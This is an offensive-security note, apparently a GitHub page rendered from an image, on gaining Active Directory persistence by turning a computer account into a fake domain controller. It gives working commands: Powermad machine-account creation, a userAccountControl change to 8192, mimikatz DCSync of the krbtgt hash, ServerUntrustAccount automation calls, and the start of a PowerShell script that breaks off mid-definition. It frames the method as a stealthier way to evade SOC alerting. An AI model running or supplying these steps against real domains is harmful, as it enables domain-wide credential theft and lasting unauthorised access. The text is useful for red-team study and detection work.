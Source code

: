 > Even though that dumping passwords hashes via the DCSync technique is not new and SOC teams might have proper alerting in place, using a computer account to perform the same technique might be a more stealthier approach.

- https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties

Modification of the “userAccountControl” attribute can transform a computer account to a domain controller.

Computer account to appear as a domain controller:
- **userAccountControl** attribute needs to have the value of 0x2000 = ( SERVER_TRUST_ACCOUNT ) decimal : 8192
--> Modification of this attribute requires domain administrator level privileges

```
Import-Module .\Powermad.psm1
New-MachineAccount -MachineAccount newMachine01 -Domain company.local -DomainController dc01.company.local
```
By default new computer will have primary group ID 515 (RID for domain groups and represents that this is a domain computer)

If you can modify the **userAccountControl** an therefore change the primary group ID. This attribute would be modified to have a value of **8192** the primary group id will change to **516** which belongs to domain controllers.

```
Set-ADComputer newMachine01 -replace @{ "userAccountcontrol" = 8192 }
```

Most important bit of having a computer account to act as a domain controller is that the DCSync can be used on that arbitrary account instead of the legitimate domain controller.

**Steps:**
1. Creation a machine account
2. Modifying **userAccountControl** to 8192
3. Computer account is known its NTLM hash could be used to pass the hash (create new cmd.exe, mimikatz...)
4. Command prompt will open under the context of the machine account --> DCSync KRBTG or whole identities
```
lsadump::dcsync /domain:purple.lab /user:krbtgt
```
**Automate technique 1:**
- https://github.com/STEALTHbits/ServerUntrustAccount
```
Add-ServerUntrustAccount -ComputerName "newMachine01" -Password "Password123" -Verbose
Invoke-ServerUntrustAccount -ComputerName "newMachine01" -Password "Password123" -MimikatzPath ".\mimikatz.exe"
```

**Automate technique 2:**
PowerShell script to automate domain persistence via the userAccountControl active directory attribute.
```
function Execute-userAccountControl
{
[CmdletBinding()]
        param
        (
                [System.String]$DomainFQDN = $ENV:USERDNSDOMAIN,
                [System.String]$ComputerName = 'Pentestlab',
                [System.String]$OSVersion = '10.0 (18363)',
                [System.String]$OS = 'Windows 10 Enterprise',
                [System.String]$DNSName = "$ComputerName.$DomainFQDN",
$MachineAccount = 'Pentestlab'
        )
$secureString = convertto-securestring "Password123" -asplaintext -force
```
